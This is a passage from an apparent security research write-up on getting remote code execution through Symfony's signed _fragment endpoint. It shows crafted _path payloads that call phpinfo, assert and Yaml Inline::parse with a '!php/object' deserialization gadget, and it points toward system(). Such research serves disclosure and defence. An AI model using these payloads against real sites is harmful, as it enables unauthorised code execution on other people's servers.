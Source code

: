 Then, we need to find out if we can call a function directly, or if we need to use a class method. We can first try the first, most straightforward way, using a function such as `phpinfo ([ int $what = INFO_ALL ] )` ([documentation](https://www.php.net/manual/en/function.phpinfo.php)). The `_path` GET parameter would look like this:

```
_controller=phpinfo
&what=-1
```

And the URL would look like this:

`http://target.com/_fragment?_path=_controller%3Dphpinfo%26what%3D-1&_hash=...`

If the HTTP response displays a `phpinfo()` page, we won. We can then try and use another function, such as `assert`:

_Sample output using `_controller=assert`_

![7](https://www.ambionics.io/images/symfony-secret-fragment/7.png)

Otherwise, this means that we'll need to use a class method instead. A good candidate for this is `Symfony\Component\Yaml\Inline::parse`, which is a built-in Symfony class, and as such is present on Symfony websites.

Obviously, this method parses a YAML input string. Symfony's [YAML](https://yaml.org) parser supports the `php/object` tag, which will convert a serialized input string into an object using `unserialize()`. This lets us use our favorite PHP tool, [PHPGGC](https://github.com/ambionics/phpggc) !

The method prototype has changed over the years. For instance, here are three different prototypes:

```
public static function parse($value, $flags, $references);
public static function parse($value, $exceptionOnInvalidType, $objectSupport);
public static function parse($value, $exceptionOnInvalidType, $objectSupport, $objectForMap, $references);
```

Instead of building `_path` for each one of these, we can take advantage of the fact that if we give an argument whose name does not match the method prototype, it will be ignored. We can therefore add every possible argument to the method, without worrying about the actual prototype.

We can therefore build `_path` like this:

```
_controller=Symfony\Component\Yaml\Inline::parse
&value=!php/object O:32:"Monolog\Handler\SyslogUdpHandler":...
&flags=516
&exceptionOnInvalidType=0
&objectSupport=1
&objectForMap=0
&references=
&flags=516
```

Again, we can try with `phpinfo()`, and see if it works out. If it does, we can use `system()` instead.
